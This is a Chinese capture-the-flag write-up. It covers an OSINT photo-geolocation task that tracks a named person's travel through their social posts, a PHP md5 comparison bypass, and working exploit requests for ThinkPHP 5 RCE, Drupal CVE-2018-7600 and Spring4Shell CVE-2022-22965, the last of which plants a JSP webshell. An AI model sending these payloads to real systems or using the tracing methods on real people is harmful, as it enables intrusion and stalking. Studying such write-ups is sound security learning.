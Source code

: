 # [Easy]盒武器
最喜欢的开盒环节  
第一张照片简单的识图就可以找到是武汉理工大学南湖校区的建筑物，网上很多信息说它是图书馆，然而并不是，建议全景仔细看看...  
第二张照片是一座巨大的桥，而且可以看到桥上有国旗，判断应该就是国庆期间拍的。打开***Suzuran***的空间，发现他国庆期间去了武汉，那这个应该就是武汉长江大桥没跑了。观察拍摄点周围有树，判断应该是公园，打开地图，武汉长江大桥附近有个龟山风景区，就是这个了。  
至于时间，发现***Suzuran***在**10月5日**发了两条说说，一条是在江边，一条是在桥上，猜测该照片在10月5日拍摄，然后穷举时间...
# [Baby]babyphp
第一问是简单的php弱比较，由于哈希函数对于数组类型的参数返回都为0，因此可以考虑构造数组绕过，即`a[]=1&b[]=2`  
对于第二问，查询资料可知，md5是存在强碰撞的，即就是两个不同的数据算出来的md5值有可能相等。找到相关工具*fastcoll*之后，使用其对**cat /flag2**进行强碰撞，然后编码提交  
# [Baby]babyunserialize
因为实在没想到第二问怎么做，所以只水了第一问...  
简单构造所需的类即可
# [EASY]Script Kiddie
简单的信息搜集题  
第一个直接搜索ThinkPHP V5就搜到漏洞了，payload为
```
http://121.5.35.176:30002//index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```
第二个打开发现是drupal框架，搜索相关漏洞，找到远程代码执行漏洞CVE-2018-7600  
根据相关教程提交post请求：
```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: 121.5.35.176:30003
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 107

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=whoami
```
最后一个为spring框架，在cve官网搜索相关漏洞，注意到CVE-2022-22965这个远程代码执行漏洞，搜索后发现即是本题  
首先发送get请求更改日志：  
```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: 121.5.35.176:30004
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) 	AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 		Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
```